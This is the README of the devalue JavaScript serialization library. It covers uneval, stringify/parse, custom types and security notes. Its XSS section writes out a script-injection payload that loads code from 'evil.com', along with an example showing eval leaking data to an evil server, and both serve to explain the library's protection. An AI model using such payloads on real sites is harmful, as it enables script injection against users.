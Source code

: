 ```yaml
---
project: devalue
stars: 2211
description: Gets the job done when JSON.stringify can't
url: https://github.com/Rich-Harris/devalue
---
```


devalue
=======

Like `JSON.stringify`, but handles

-   cyclical references (`obj.self = obj`)
-   repeated references (`[value, value]`)
-   `undefined`, `Infinity`, `NaN`, `-0`
-   regular expressions
-   dates
-   `Map` and `Set`
-   `BigInt`
-   `ArrayBuffer` and Typed Arrays
-   custom types via replacers, reducers and revivers

Try it out here.

Goals:
------

-   Performance
-   Security (see XSS mitigation)
-   Compact output

Non-goals:
----------

-   Human-readable output
-   Stringifying functions

Usage
-----

There are two ways to use `devalue`:

### `uneval`

This function takes a JavaScript value and returns the JavaScript code to create an equivalent value — sort of like `eval` in reverse:

import \* as devalue from 'devalue';

let obj \= { message: 'hello' };
devalue.uneval(obj); // '{message:"hello"}'

obj.self \= obj;
devalue.uneval(obj); // '(function(a){a.message="hello";a.self=a;return a}({}))'

Use `uneval` when you want the most compact possible output and don't want to include any code for parsing the serialized value.

### `stringify` and `parse`

These two functions are analogous to `JSON.stringify` and `JSON.parse`:

import \* as devalue from 'devalue';

let obj \= { message: 'hello' };

let stringified \= devalue.stringify(obj); // '\[{"message":1},"hello"\]'
devalue.parse(stringified); // { message: 'hello' }

obj.self \= obj;

stringified \= devalue.stringify(obj); // '\[{"message":1,"self":0},"hello"\]'
devalue.parse(stringified); // { message: 'hello', self: \[Circular\] }

Use `stringify` and `parse` when evaluating JavaScript isn't an option.

### `unflatten`

In the case where devalued data is one part of a larger JSON string, `unflatten` allows you to revive just the bit you need:

import \* as devalue from 'devalue';

const json \= \`{
  "type": "data",
  "data": ${devalue.stringify(data)}
}\`;

const data \= devalue.unflatten(JSON.parse(json).data);

Custom types
------------

You can serialize and deserialize custom types by passing a second argument to `stringify` containing an object of types and their _reducers_, and a second argument to `parse` or `unflatten` containing an object of types and their _revivers_:

class Vector {
	constructor(x, y) {
		this.x \= x;
		this.y \= y;
	}

	magnitude() {
		return Math.sqrt(this.x \* this.x + this.y \* this.y);
	}
}

const stringified \= devalue.stringify(new Vector(30, 40), {
	Vector: (value) \=> value instanceof Vector && \[value.x, value.y\]
});

console.log(stringified); // \[\["Vector",1\],\[2,3\],30,40\]

const vector \= devalue.parse(stringified, {
	Vector: (\[x, y\]) \=> new Vector(x, y)
});

console.log(vector.magnitude()); // 50

If a function passed to `stringify` returns a truthy value, it's treated as a match.

You can also use custom types with `uneval` by specifying a custom replacer:

devalue.uneval(vector, (value, uneval) \=> {
	if (value instanceof Vector) {
		return \`new Vector(${value.x},${value.y})\`;
	}
}); // \`new Vector(30,40)\`

Note that any variables referenced in the resulting JavaScript (like `Vector` in the example above) must be in scope when it runs.

Error handling
--------------

If `uneval` or `stringify` encounters a function or a non-POJO that isn't handled by a custom replacer/reducer, it will throw an error. You can find where in the input data the offending value lives by inspecting `error.path`:

try {
	const map \= new Map();
	map.set('key', function invalid() {});

	uneval({
		object: {
			array: \[map\]
		}
	});
} catch (e) {
	console.log(e.path); // '.object.array\[0\].get("key")'
}

XSS mitigation
--------------

Say you're server-rendering a page and want to serialize some state, which could include user input. `JSON.stringify` doesn't protect against XSS attacks:

const state \= {
	userinput: \`</script><script src='https://evil.com/mwahaha.js'>\`
};

const template \= \`
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>\`;

Which would result in this:

<script\>
	// NEVER DO THIS
	var preloaded \= {"userinput":"
</script\>
<script src\="https://evil.com/mwahaha.js"\>
	"};
</script\>

Using `uneval` or `stringify`, we're protected against that attack:

const template \= \`
<script>
  var preloaded = ${uneval(state)};
</script>\`;

<script\>
	var preloaded \= {
		userinput:
			"\\\\u003C\\\\u002Fscript\\\\u003E\\\\u003Cscript src='https:\\\\u002F\\\\u002Fevil.com\\\\u002Fmwahaha.js'\\\\u003E"
	};
</script\>

This, along with the fact that `uneval` and `stringify` bail on functions and non-POJOs, stops attackers from executing arbitrary code. Strings generated by `uneval` can be safely deserialized with `eval` or `new Function`:

const value \= (0, eval)('(' + str + ')');

Other security considerations
-----------------------------

While `uneval` prevents the XSS vulnerability shown above, meaning you can use it to send data from server to client, **you should not send user data from client to server** using the same method. Since it has to be evaluated, an attacker that successfully submitted data that bypassed `uneval` would have access to your system.

When using `eval`, ensure that you call it _indirectly_ so that the evaluated code doesn't have access to the surrounding scope:

{
	const sensitiveData \= 'Setec Astronomy';
	eval('sendToEvilServer(sensitiveData)'); // pwned :(
	(0, eval)('sendToEvilServer(sensitiveData)'); // nice try, evildoer!
}

Using `new Function(code)` is akin to using indirect eval.

See also
--------

-   lave by Jed Schmidt
-   arson by Ben Newman. The `stringify`/`parse` approach in `devalue` was inspired by `arson`
-   oson by Steffen Trog
-   tosource by Marcello Bastéa-Forte
-   serialize-javascript by Eric Ferraiuolo
-   jsesc by Mathias Bynens
-   superjson by Blitz
-   next-json by Daniele Ricci

License
-------

MIT
